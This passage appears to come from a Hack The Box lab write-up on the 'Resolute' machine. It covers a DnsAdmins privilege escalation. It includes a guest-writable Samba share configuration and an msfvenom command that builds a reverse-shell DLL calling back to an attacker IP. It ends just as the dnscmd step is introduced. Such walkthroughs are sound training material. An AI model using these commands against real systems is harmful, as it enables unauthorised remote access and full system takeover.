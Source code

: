 Let's get to work. We need a few things:

1. Samba hosting a file share accessible by `Everyone`
2. `msfvenom` to generate a reverse shell payload in DLL

#### File share accessible by `Everyone`

Here's the `smb.conf` I use. Take note the directory permissions has to be identical to the one in the configuration file, e.g. `777`.

<div class="filename"><span>smb.conf</span></div>

```
[global]
workgroup = WORKGROUP
server string = Samba Server %v
netbios name = kali
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[evil]
   path = /root/Downloads/resolute/tmp
   writable = yes
   guest ok = yes
   guest only = yes
   read only = yes
   create mode = 0777
   directory mode = 0777
   force user = nobody
```

#### Reverse shell payload generated by `msfvenom`

The reverse shell payload is located at `/root/Downloads/resolute/tmp`, i.e. the file share.

```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.183 LPORT=4321 -f dll -o evil.dll
```

#### I got `SYSTEM` shell yo!

I didn't notice it before but `ryan` is also in Remote Management Users group. As such, we can also use Evil-WinRM to get a shell.

{% include image.html image_alt="8da9528f.png" image_src="/026c5de4-f79e-4b72-a7a3-30b14f9bf687/8da9528f.png" %}

With that, we can launch the attack with `dnscmd.exe`, which is only available in PowerShell for some reason.

{% include image.html image_alt="cc446ca6.png" image_src="/026c5de4-f79e-4b72-a7a3-30b14f9bf687/cc446ca6.png" %}

Launch the attack like so.


[1]: https://www.hackthebox.eu/home/machines/profile/220
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/